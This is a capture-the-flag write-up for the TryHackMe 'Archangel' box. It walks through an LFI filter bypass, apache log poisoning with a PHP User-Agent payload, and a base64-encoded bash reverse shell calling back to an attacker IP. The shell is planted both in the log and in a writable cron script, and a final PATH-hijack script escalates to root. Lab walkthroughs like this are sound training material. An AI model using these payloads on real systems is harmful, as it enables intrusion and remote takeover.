## TL;DR

we find `mafialive.thm` subdomain and then from `robots.txt` we find `/test.php` page, which gives us `LFI`. We use php wrapper to achieve `/test.php` source code, and find vulnerability in the anti `LFI` checking there. We exploit it to get `RCE`, using apache log poisoning.
Then, we get shell as `www-data` and move to `archangel` using cronjob task we manipulate, `/opt/helloworld.sh`.
We get PE using `~/secret/backup`, which let us use our own `cp`, and then get shell as root.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```


We can see port `80` is open with apache http server, and port `22` with ssh.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
```

### Find mafialive.thm subdomain and then LFI

I started by using `gobuster` to enumerate pages
```bash
gobuster dir -u http://$target/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt --xl 5197        
```

We see the endpoint `/flags`



It leads here to this directory index:



Oh wow. We got RickRolled. VERY NICE. -_-

After `gobuster` didn't help, i moved to manual exploring, we can see the mail `support@mafialive.thm`, so probably the domain `mafialive.thm` is under the ip. We'll add it to our `/etc/hosts`.



We can access the root page, and get flag:
```bash
thm{f0und_th3_r1ght_h0st_n4m3}     
```



Then I tried `gobuster` to enumerate the page, and was shocked to see that `robots.txt` isn't found inside any of `usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-*` files. I fetched manually `robots.txt`, and got:

```bash
┌──(agonen㉿kali)-[~/thm/Archangel]
└─$ curl http://mafialive.thm/robots.txt                                                                                       
User-agent: *
Disallow: /test.php
```

Then, i fetched `/test.php`:
```bash
┌──(agonen㉿kali)-[~/thm/Archangel]
└─$ curl http://mafialive.thm/test.php   

<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
            </div>
</body>

</html>
```

We can see there is some vector here for `LFI`, i tried to give different payloads in here:
```bash
/test.php?view=/var/www/html/development_testing/mrrobot.php
```
Like `../../../../../etc/passwd`, but kept getting `Sorry, Thats not allowed`.

Then, I tried to use different URL schema, like `php` schema, see example here [https://avishaigonen123.github.io/CTF_writeups/root-me/Web-Server/PHP-Filters.html](https://avishaigonen123.github.io/CTF_writeups/root-me/Web-Server/PHP-Filters.html), and it worked.

This payload:
```bash
php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```
gave me:
```bash
PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==
```




Then, I gave this payload to get `test.php` source code:
```bash
/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```
And got back:
```bash
CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3llZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhlcmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYoIWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJaW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPgoKCg==
```

Which is decoded to:
```php
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>
```

### LFI to RCE using apache access log

Let's see the code, it checks if the view contains `../..`. We can just bypass this by giving `..//..`, like double `/`, and it'll work.
The string also needs to contain `/var/www/html/development_testing`.

```bash
        function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing'))
            include $_GET['view'];

```

So, let's get `/etc/passwd`:
```bash
/test.php?view=/var/www/html/development_testing..//..//..//..//..//..//..//..//..//..//etc/passwd
```



```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
```

So, we got the second secret flag:
```bash
thm{explo1t1ng_lf1}
```

Now, we want to get `RCE` using apache log poisoning [https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning).

I want the location of apache access log, so I grepped all `apache` + `.log` + not `..` from `LFI-Jjaddix.txt`.
```bash
┌──(agonen㉿kali)-[~/thm/Archangel]
└─$ grep "apache" /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt | grep "\.log" | grep -v "\.\." > apache_log_locations.txt 
┌──(agonen㉿kali)-[~/thm/Archangel]
└─$ cat apache_log_locations.txt 
/apache2/logs/access.log
/apache2/logs/error.log
/apache/logs/access.log
/apache/logs/error.log
c:\apache\logs\access.log
c:\apache\logs\error.log
/usr/local/apache2/logs/access.log
/usr/local/apache2/logs/error.log
/usr/local/apache/logs/access.log
/usr/local/apache/logs/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache-ssl/access.log
/var/log/apache-ssl/error.log
```

Now, we'll use `ffuf` to find the correct path, i used `-fw` to ignore all responses with 38 words, which the default response:



```bash
┌──(agonen㉿kali)-[~/thm/Archangel]
└─$ ffuf -u "http://mafialive.thm/test.php?view=/var/www/html/development_testing..//..//..//..//..//..//..//..//..//..//FUZZ" -w apache_log_locations.txt -fw 38

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://mafialive.thm/test.php?view=/var/www/html/development_testing..//..//..//..//..//..//..//..//..//..//FUZZ
 :: Wordlist         : FUZZ: /home/agonen/thm/Archangel/apache_log_locations.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 38
________________________________________________

/var/log/apache2/access.log [Status: 200, Size: 331592, Words: 22649, Lines: 1530, Duration: 1619ms]
/var/log/apache2/error.log [Status: 200, Size: 675803, Words: 52941, Lines: 2098, Duration: 2638ms]
```

Now, we can sent request with this header, using Burp suite. I took the payload from penelope.
```bash
User-Agent: <?php system('printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4xLjIwNi80NDQ0IDA+JjEpICY=|base64 -d|bash'); ?>
```


And then just fetch the `/var/log/apache2/access.log` file, to activate the php code:


and we got our reverse shell



### Shell as archangel using cronjob

First, we can find `user.txt`
```bash
www-data@ubuntu:/home/archangel$ cat user.txt 
thm{lf1_t0_rc3_1s_tr1cky}
```

Then, I kept looking, and of course got another RickRoll... 
```bash
www-data@ubuntu:/home/archangel$ cat myfiles/passwordbackup 
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

I executed `linpeas`, and found `/opt/helloworld.sh`, which is being executed every minute as cronjob task



I can write to this file, so I added the payload from `penelope` to get reverse shell.

```bash
www-data@ubuntu:/home/archangel$ echo "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4xLjIwNi80NDQ0IDA+JjEpICY=|base64 -d|bash">> /opt/helloworld.sh
```

Then, I got shell as `archangel`



### Privilege Escalation to Root

Now we can find second user flag.
```bash
archangel@ubuntu:~/secret$ cat user2.txt 
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
```

Then, I looked on the file `backup`, as we can see it has setuid flag on, and is owned by root.



When I execute this script using `ltrace`, I can see it executes the command: `cp /home/user/archangel/myfiles/* ?`. 

```bash
archangel@ubuntu:~/secret$ ltrace ./backup 
cp: cannot stat '/home/user/archangel/myfiles/*': No such file or directory
--- SIGCHLD (Child exited) ---
+++ exited (status 0) +++
```

We can create our own `cp` file, change the `PATH` variable and get privilege escalation. The reason is because it isn't writing full path, like `/bin/cp`, so it'll look at the `PATH` variable, to find the binary.

```bash
archangel@ubuntu:~/secret$ mkdir /tmp/our_cp -p                                                            
archangel@ubuntu:~/secret$ export PATH=/tmp/our_cp:$PATH                                                                                                                                     
archangel@ubuntu:~/secret$ cd /tmp/our_cp                                                                                                                            
archangel@ubuntu:/tmp/our_cp$ echo -e '/bin/bash'> /tmp/our_cp/cp
archangel@ubuntu:~/secret$ chmod +x /tmp/our_cp/cp
archangel@ubuntu:/tmp/our_cp$ ~/secret/backup 

root@ubuntu:/tmp/our_cp# id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
root@ubuntu:/tmp/our_cp# cd /root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt 
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}
```

```bash
TMP_DIR='/tmp/our_cp'
mkdir $TMP_DIR -p
cd $TMP_DIR
echo -e '/bin/bash'> $TMP_DIR/cp
chmod +x $TMP_DIR/cp

export PATH=$TMP_DIR:$PATH
~/secret/backup   # execute to get root shell
```



```bash
root@ubuntu:/root# cat root.txt 
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}
```

